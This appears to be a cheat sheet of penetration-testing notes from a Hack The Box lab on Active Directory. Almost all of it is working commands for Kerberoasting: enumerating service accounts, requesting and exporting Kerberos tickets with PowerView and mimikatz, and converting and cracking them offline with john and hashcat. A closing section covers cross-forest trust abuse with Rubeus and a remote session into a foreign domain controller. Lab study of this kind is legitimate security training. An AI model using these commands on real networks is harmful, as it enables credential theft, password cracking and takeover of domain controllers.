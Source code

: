 

Enumerate SPN's via setspn
```cmd-session
setspn.exe -Q */*
```

Request All Tickets via setspn
```powershell-session
Add-Type -AssemblyName System.IdentityModel

setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Request TGS for User Account
```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

Request TGS for User Account via powershell
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


Extracting Tickets with mimikatz
```cmd-session
mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export
```
Converting mimikatz base64 blob for cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n
```

Convert base64 file to kirbi file
```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

Extracting kirbi with john
```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```

Convert kirbi for hashcat from john format
```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Cracking kirbi with hashcat
```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

Request tickets with powershell
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

Extracting tickets to csv files
```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

Check for encryption type 0 = rc4 24 = aes with powerview
```powershell-session

Import-Module .\PowerView.ps1

Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

Path to supported encryption types
```Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options```

Get ticket with powerview
```Import-Module .\PowerView.ps1```
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


#### Cross Forest Trust Abuse


(powerview)Enumerating Accounts for Associated SPNs Using Get-DomainUser
```powershell-session
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

(powerview)Enumerating Account for group partnership
```powershell-session
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

Kerberoasting with specified domain for TGS hash
```powershell-session
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

(powerview)Find accounts not part of local domain
```powershell-session
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```

(winrm)Accessing DC of foreign group account
```powershell-session
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```
